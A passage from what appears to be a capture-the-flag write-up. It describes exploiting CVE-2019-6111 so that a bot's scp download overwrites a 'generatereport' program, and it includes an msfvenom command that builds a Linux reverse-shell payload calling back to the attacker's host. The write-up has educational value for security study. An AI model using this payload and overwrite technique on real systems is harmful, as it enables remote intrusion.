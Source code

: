 ~~~
$ sudo tcpdump -nn -i eth0 'port not 443 and port not 80 and port not 22 and tcp'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

...

14:10:27.612236 IP 35.195.214.46.57610 > REDACTED.2223: Flags [S], seq 423611077, win 28400, options [mss 1420,nop,nop,TS val 1288908991 ecr 0,nop,wscale 7], length 0
14:10:27.612285 IP REDACTED.2223 > 35.195.214.46.57610: Flags [R.], seq 0, ack 423611078, win 0, length 0
~~~

After all the traffic to port 2222, we can see another connection from the same IP address to our port 2223. Let's listen on that port to see what Bob is trying to send us!

~~~
$ nc -lvvp 2223
Listening on [0.0.0.0] (family 0, port 2223)
Connection from 46.214.195.35.bc.googleusercontent.com 57648 received!
## generated by generatereport
## generatereport failed. Error: unknown
~~~

Hmmm. Ok, apparently some `generatereport` tool was executed with our `data.txt` and of course it failed because we didn't provide the proper file.

## CVE-2019-6111

Again, we googled a lot at this point to see what this `generatereport` was and how we could exploit it, maybe sending it a malicious `data.txt` file... And of course we found nothing. But then it clicked us.

We have a functional PoC of CVE-2019-6111 to overwrite additional files other than the one requested via `scp`. Why don't we try to overwrite that `generatereport`, whatever it is? (assuming it's in the same directory where `data.txt` is being requested!)

To confirm this, we firstly altered the exploit so that it sent an innocuous `generatereport` file to see what happened. And after setting the server up and speaking with Bob again, we happily checked that we no longer received the connection to the 2223 port after Bob's `scp`. It seemed that our hypothesis was correct and `generatereport` was overwritten. Time to deliver a real payload!

~~~
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=REDACTED LPORT=2223 -f elf -o sploit
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: sploit
~~~

We used port 2223 with our reverse shell to make sure the victim could go out through that port and no firewall would block us.

Once the malicious executable was set, we modified the exploit to deliver it instead of the default payload:
